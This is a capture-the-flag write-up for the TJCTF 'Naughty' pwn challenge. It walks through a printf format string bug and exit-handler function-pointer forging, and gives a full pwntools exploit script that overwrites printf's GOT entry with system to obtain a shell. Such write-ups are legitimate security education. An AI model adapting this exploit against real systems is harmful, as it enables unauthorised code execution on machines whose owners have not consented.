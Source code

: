 # Naughty
Pwn, 100

>  Written by KyleForkBomb
>  Santa is getting old and can't tell everyone which list they are on anymore. Fortunately, one of his elves wrote a service to do it for him!
>  nc p1.tjctf.org 8004

Loading this into Ghidra reveals a format string bug (the binary calls `printf` on user input). This means we have arbitrary read and write. However, the binary exits immediately after the printf call, making things more difficult than a standard challenge. There is no obvious target for an overwrite.

To deal with this, I stepped through assembly in GDB looking for calls to function pointers when the program was exiting. I first found one in `_dl_fini`, which allowed me to leak a libc address and then loop back to `_start` to get another arbitrary write:

```
<_dl_fini+488>   call   DWORD PTR [esi]
```

On the second exit, the binary segfaulted before reaching `_dl_fini`, and I still needed to loop again in order to actually have my arbitrary write do anything (I chose to overwrite the GOT entry of `printf` with `system`). Since I had a libc address this time, I had more options. I found a value loaded from a libc address that was encrypted with a canary value in `__libc_start_main`:

```
<__run_exit_handlers+282> ror    eax, 0x9
<__run_exit_handlers+285> xor    eax, DWORD PTR gs:0x18
<__run_exit_handlers+292> call   eax
```

I identified the value it was XORed with on the stack, leaked it in the first `printf` execution, and forged the function pointer in the second execution. On the third loop, `printf` was overwritten with `system`, giving me a shell and thus the flag.

```python
from pwn import *

#p = process("./naughty")
#gdb.attach(p)
p = remote("p1.tjctf.org", 8004)
#p.recvuntil("?\n")
def leak():
	p.sendline(p32(0x8049cc0)+"%7$s".format(0))
	p.recvuntil("LIST ")
	p.recv(4)
	puts = u32(p.recv(4))
	one_gadget = puts - 0x067360 + 0x3cbf0
	p.interactive()
def shell():
	fptr = 0x08049bac
	got = 0x8049cc0
	printf = 0x8049cb0
	s = 171
	#s = 187
	p.sendline(p32(fptr+2)+p32(fptr)+p32(got)+'%{}x'.format(0x804-12)+'%7$hn'+'%9${}s\xff'.format(0x8420-0x804-1)+'%8$hn'+'%{}$p%{}$p'.format(s, s+1))
	leak = u32(p.recvuntil('\xff')[-5:-1])
	base = leak - 0x18D90
	system = base + 0x03cd10
	print(hex(base))
	#target = base + 0x1E9A0C
	target = base + 0x1D620C
	key = (p.recv(10), p.recv(10))
	print key
	key = int(key[1][4:]+key[0][2:4], 16)
	main = 0x8048536 ^ key
	enc = (((main << 9)|(main >> (32-9)))&0xffffffff)
	print(hex(enc))
	writes = sorted(enumerate([(enc >> 16), (enc&0xffff), (system >> 16), (system&0xffff)]), key=lambda x: x[1])
	print(writes)
	fmt = ''
	prev = 16
	for i, n in writes:
		fmt += '%{}x%{}$hn'.format(n-prev, i+7)
		prev = n
	print(fmt)
	p.sendline(p32(target+2)+p32(target)+p32(printf+2)+p32(printf)+fmt)
	p.recvuntil("?\n")
	p.interactive()
shell()
```

Flag: `tjctf{form4t_strin9s_ar3_on_th3_n1ce_li5t}`